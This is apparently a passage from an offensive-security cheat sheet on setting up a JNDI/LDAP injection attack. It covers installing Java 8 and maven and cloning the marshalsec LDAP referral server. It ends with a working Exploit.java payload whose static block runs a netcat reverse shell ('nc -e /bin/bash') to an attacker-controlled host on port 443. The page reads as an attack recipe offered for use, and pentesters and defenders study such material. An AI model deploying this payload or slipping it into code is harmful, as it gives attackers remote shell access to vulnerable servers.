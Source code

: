 ### Requirements

#### Java 8

```bash
# Check java version:
java -version
# Install Java 8 for Debian/Ubuntu:
sudo mkdir /usr/lib/jvm
cd /usr/lib/jvm

sudo tar xzvf ~/Downloads/jdk-8u181-linux-x64.tar.gz # modify as needed
sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1

sudo update-alternatives --set java /usr/lib/jvm/jdk1.8.0_181/bin/java
sudo update-alternatives --set javac /usr/lib/jvm/jdk1.8.0_181/bin/javac
sudo update-alternatives --set javaws /usr/lib/jvm/jdk1.8.0_181/bin/javaws
# Install Java 8 for Arch Linux:
sudo pacman -S jdk8-openjdk
archlinux-java status
sudo archlinux-java set java-8-openjdk
```

#### LDAP Referral Server

```
git clone https://github.com/mbechler/marshalsec
```

#### maven

```bash
sudo apt install maven # Debian/Ubuntu
sudo pacman -S maven # Arch Linux
```

#### Exploit.java

{% tabs %}
{% tab title="#1" %}
Simple command execution:

{% code title="Exploit.java" %}
```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash <LHOST> 443");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
{% endcode %}
{% endtab %}
